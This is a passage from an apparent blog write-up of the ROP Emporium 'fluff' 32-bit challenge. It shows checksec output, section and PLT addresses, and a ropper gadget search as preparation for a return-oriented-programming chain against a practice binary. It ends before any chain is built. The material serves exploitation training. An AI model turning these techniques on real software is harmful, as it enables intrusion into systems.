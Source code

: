 ```yaml
---
layout: post
title:  "ROP Emporium: fluff"
date:   2021-03-12 11:33:56 +0200
categories: ropemporium
---
```


## 32-bit ##

Once again, we are asked to build a ROP gadget chain so that, using ```print_file``` we get to print the name of a file. Thus, we need to write the name of the file as a string somewhere in memory, just like in the previous levels.
The only difference this time is that we need to get more creative, as there are less evidently useful gadgets.
Let's start by checking the basic mitigations:

```
voidwalker@Abyss:[fluffx86]** checksec fluff32
[*] '/home/voidwalker/ROPEmporium/fluffx86/fluff32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
```

We are also going to need to get the addresses of ```.data``` section, as well as ```print_file```'s ```PLT``` entry:

```
voidwalker@Abyss:[fluffx86]** readelf -S fluff32 | grep data
  [16] .rodata           PROGBITS        080485d8 0005d8 000014 00   A  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
```

```
080483d0 <print_file@plt>:
 80483d0:       ff 25 14 a0 04 08       jmp    DWORD PTR ds:0x804a014
 80483d6:       68 10 00 00 00          push   0x10
 80483db:       e9 c0 ff ff ff          jmp    80483a0 <.plt>
```

Looks like the size of the ```.data``` section is also 8 bytes, just enough for our ```flag.txt``` string!
Let's look for some ```mov``` gadgets:
```
voidwalker@Abyss:[fluffx86]** ropper --file fluff32 --search "mov"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: fluff32
0x080484e7: mov al, byte ptr [0xc9010804]; ret;
0x0804846d: mov al, byte ptr [0xd0ff0804]; add esp, 0x10; leave; ret;
0x080484ba: mov al, byte ptr [0xd2ff0804]; add esp, 0x10; leave; ret;
0x080484e4: mov byte ptr [0x804a020], 1; leave; ret;
0x0804854f: mov eax, 0xdeadbeef; ret;
0x08048543: mov eax, ebp; mov ebx, 0xb0bababa; pext edx, ebx, eax; mov eax, 0xdeadbeef; ret;
0x080484b2: mov ebp, esp; sub esp, 0x10; push eax; push 0x804a020; call edx;
0x08048466: mov ebp, esp; sub esp, 0x14; push 0x804a020; call eax;
0x080484da: mov ebp, esp; sub esp, 8; call 0x450; mov byte ptr [0x804a020], 1; leave; ret;
0x08048545: mov ebx, 0xb0bababa; pext edx, ebx, eax; mov eax, 0xdeadbeef; ret;
0x08048423: mov ebx, dword ptr [esp]; ret;
```